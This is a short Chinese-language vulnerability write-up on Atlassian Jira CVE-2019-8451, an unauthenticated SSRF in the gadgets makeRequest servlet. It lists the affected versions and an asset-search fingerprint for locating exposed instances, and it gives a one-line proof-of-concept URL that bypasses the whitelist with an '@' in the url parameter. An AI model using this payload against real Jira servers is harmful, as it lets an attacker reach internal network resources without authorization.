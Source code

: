 # Atlassian Jira makeRequest SSRF漏洞 CVE-2019-8451

## 漏洞描述

Jira的 /plugins/servlet/gadgets/makeRequest资源存在SSRF漏洞，原因在于JiraWhitelist这个类的逻辑缺陷，成功利用此漏洞的远程攻击者可以以Jira服务端的身份访问内网资源。经分析，此漏洞无需任何凭据即可触发。

## 漏洞影响

<a-checkbox checked>Atlassian Jira  <8.4.0</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="ATLASSIAN-JIRA"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1651291151659-56949fca-ccf9-4acb-9a06-0835aba9b385-20220430132316629.png)

验证POC

```java
/plugins/servlet/gadgets/makeRequest?url=http://目标IP@www.baidu.com/robots.txt
```

![img](../../../.vuepress/public/img/1651296061837-7e8e8f44-15e8-46c4-96f4-62fbe1602493.png)